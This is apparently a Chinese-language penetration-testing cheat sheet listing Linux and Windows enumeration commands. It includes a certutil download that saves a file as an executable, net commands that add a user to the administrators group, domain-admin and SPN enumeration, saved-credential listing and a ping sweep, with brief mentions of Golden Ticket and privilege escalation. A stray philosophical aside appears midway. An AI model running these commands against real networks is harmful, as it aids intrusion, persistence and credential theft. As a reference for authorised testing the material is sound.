 # Linux

## 系统架构信息
* uname -a ： uname命令报告有关计算机的软件和硬件的基本信息。
* cat /etc/issue ：文件/ etc / issue是一个文本文件，其中包含要在登录提示之前打印的消息或系统标识
* cat /etc/*-release ： 文件包含一个被解析以获取信息的描述行。
* cat /proc/version ：/ proc/version指定了Linux内核的版本，用于编译内核的gcc的版本以及内核编译的时间。 它还包含内核
编译器的用户名。
* cat /proc/sys/kernel/version ： /proc/sys/kerne / 中的文件可以用来调整和监视Linux内核操作中的各种活动

## 进程

* ps -ef /ps aux : 列出当前进程快照
* ls -al /proc/ : /proc是非常特殊的，它也是一个虚拟文件系统。 它有时被称为过程信息伪文件系统。 它不包含“真实”文件，而是包含运行时系统信息（例如系统内存，安装的设备，硬件配置等）。
* ls -al /proc/99 :查看关于PID 99的信息.

## 服务

* service -status-all 检查所有服务状态
* systemctl -a 列出安装在文件系统中的所有单元
* cat /etc/services /etc/services将端口号映射到指定的服务

## kali

### 启用root

- sudo passwd

## null

人之贵贱在乎于心 其心贵 虽为贩夫走卒 难掩浩然之气.其心贱 总理庙堂之高

清交淡如水 亲疏随意 爱恨随缘 清凉自在


贫富差距

兴 百姓苦 亡 百姓苦


# windows

## Windows上自带Certutil

### 下载

certutil可用于从互联网下载文件。

```shell
certutil.exe -urlcache -split -f http://example.com/a.txt a.exe
```

## 域信息收集常用命令

net use  查看ipc连接情况
net user /domain 获取域用户列表
net user test 123 /add 添加用户
net localgroup administrators test /add 添加test用户到管理组，一般情况下，管理组才能远程桌面
net group /domain 查询域里面的组
net group "domain admins" /domain 获取域管理员列表
net group "enterprise admins" /domain   查看当前域中企业管理员组用户
net group "domain computers" /domain    查看当前域中的所有的计算机名（登录过该域的计算机）
net group "exchange servers" /domain    查看域内是否存在Exchange
net group "domain controllers" /domain 查看域控制器(如果有多台)
net config workstation  查看当前登录域
net view 查看同一域内机器列表
net view \\ip 查看某IP共享
net view \\test 查看test计算机的共享资源列表
net view /domain 查看内网存在多少个域
Net view /domain:test 查看test域中的机器列表
wmic useraccount get Caption,sid    获取域内所有用户sid
setspn -T target.com -Q */*     获取当前域内所有spn
for /l %i in (1,1,255) do @ping 192.168.0.%i -w 1 -n 1 | find /i"ttl"
for /l %i in (1,1,255) do @ping 10.10.10.%i -w 1 -n 1 | find /i"ttl"

systeminfo  查看补丁情况，也能看到当前机器是否加入域环境
net group "domain controllers" /domain  查询域控
nslookup -type=SRV _ldap._tcp.corp  通过srv记录获取域控地址
nltest /dclist:corp     使用nltest查询域控列表
tasklist /svc   查看进程及对应服务名
cmdkey /l   查看当前保存的登陆凭证
type c:\Windows\system32\drivers\etc\hosts  可以发现些内网IP


### 黄金票据(Golden Ticket)

在普通域用户权限和krbtgt hash的情况下,获取域管理员权限.

## HTA（html应用程序）攻击

# 常见的路由协议

# 提权

windows下有user administrator system
linux下有user www-data root

常规提权思路有:

- 系统内核溢出漏洞提权
- 服务器中间件漏洞提权
- 数据库提权
- 第三方组件提权


